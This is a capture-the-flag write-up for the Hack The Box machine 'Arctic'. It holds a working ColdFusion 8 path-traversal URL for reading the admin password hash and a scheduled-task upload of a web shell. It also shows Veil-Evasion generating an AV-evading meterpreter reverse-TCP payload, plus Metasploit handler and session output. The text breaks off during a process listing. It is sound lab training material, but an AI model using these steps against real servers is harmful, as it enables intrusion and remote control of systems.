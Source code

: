 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Github](https://github.com/Teckk2/Teck_k2/blob/master/ColdFusion-8%20HTML%20web%20shell),[Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>There are few exploits suggested by **MSF** which we can use to gain Admin/System Levle access, but before we start, weneed to migrate our meterpreter to x64/windows meterpreter session because the Architectur is X64 and our current session is X86/windows.
<br>There are two ways to migrate either you create another payload with x64 sepecified then upload and execute it and get meterpreter or you can migrate to a X64 session which already running on the system.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

 <p>PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
 <br>---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
 <br>0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                      
 <br>4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                
 <br>236&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                              
 <br>272&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>324&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>336&nbsp;&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>368&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;wininit.exe                                           
 <br>388&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>440&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;winlogon.exe                                          
 <br>484&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;services.exe                                          
 <br>492&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsass.exe                                             
 <br>500&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsm.exe                                               
 <br>600&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>672&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>748&nbsp;&nbsp;&nbsp;440&nbsp;&nbsp;&nbsp;LogonUI.exe                                           
 <br>756&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>796&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>844&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>892&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>932&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>944&nbsp;&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>952&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;spoolsv.exe                                           
 <br>1004&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1036&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;CF8DotNetsvc.exe                                      
 <br>1080&nbsp;&nbsp;1036&nbsp;&nbsp;JNBDotNetSide.exe                                     
 <br>1088&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1124&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;dllhost.exe                                           
 <br>1140&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;jrunsvc.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrunsvc.exe
 <br>1168&nbsp;&nbsp;1140&nbsp;&nbsp;jrun.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrun.exe
 <br>1176&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1184&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swagent.exe                                           
 <br>1220&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swstrtr.exe                                           
 <br>1228&nbsp;&nbsp;1220&nbsp;&nbsp;swsoc.exe                                             
 <br>1236&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1240&nbsp;&nbsp;600&nbsp;&nbsp;&nbsp;WmiPrvSE.exe                                          
 <br>1304&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;k2admin.exe                                           
 <br>1364&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1436&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>1480&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;VGAuthService.exe                                     
 <br>1736&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;vmtoolsd.exe                                          
 <br>1748&nbsp;&nbsp;3180&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>1760&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;ManagementAgentHost.exe                               
 <br>2052&nbsp;&nbsp;1304&nbsp;&nbsp;k2server.exe                                          
 <br>2060&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2128&nbsp;&nbsp;1304&nbsp;&nbsp;k2index.exe                                           
 <br>2144&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2320&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>2892&nbsp;&nbsp;796&nbsp;&nbsp;&nbsp;taskeng.exe                                           
